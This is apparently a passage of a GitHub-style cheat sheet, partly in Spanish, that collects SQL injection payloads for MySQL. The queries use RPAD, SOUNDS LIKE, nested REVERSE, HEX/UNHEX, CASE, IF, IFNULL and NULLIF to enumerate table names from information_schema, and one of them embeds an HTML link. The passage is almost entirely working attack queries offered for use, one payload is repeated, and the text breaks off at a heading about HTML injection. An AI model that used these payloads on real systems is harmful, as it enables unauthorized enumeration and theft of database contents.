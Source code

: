 `SELECT RPAD(table_name,50,'.') from information_schema.tables where table_schema sounds like database()`

### Sql inyection payload usando upper + reverse + right + sounds like para extraer información  

`select upper(reverse(right(reverse(table_name),100)))from information_schema.tables where table_schema sounds like database()`

### Sql inyection usando elt, doble Reverse, hex y unhex

`Select unhex(hex(reverse(reverse(elt(1, table_Name))))) from information_schema.tables`

### Sql inyection case

```
SELECT CASE WHEN (1=1) THEN table_name ELSE '<a href=https://twitter.com/_Y000_>_Y00!_</a>' END from information_schema.tables

SELECT CASE 4 WHEN 1 THEN database() WHEN 2 THEN @@version WHEN 3 THEN table_name ELSE '_Y000!_' END FROM information_schema.tables

SELECT CASE WHEN 1>0 THEN table_name ELSE '_Y000!_' END FROM information_schema.tables
```

### SQL IF Function

```
SELECT IF(STRCMP('1','1'),'_Y000!_',table_name) FROM information_schema.tables

select IF(MID(@@version,1,1)='5',table_name,'_Y000!_') from information_schema.tables
```

### SQL IFNULL

```
SELECT IFNULL(1+1/0,table_name) FROM information_schema.tables
```

### SQL NULLIF

```
SELECT NULLIF(table_name,2) from information_schema.tables
```

### Sql inyection payload usando upper + reverse + right + sounds like

`select upper(reverse(right(reverse(table_name),100)))from information_schema.tables where table_schema sounds like database()`

### SQL injection usando doble reverse + right + if statement + HTML injection
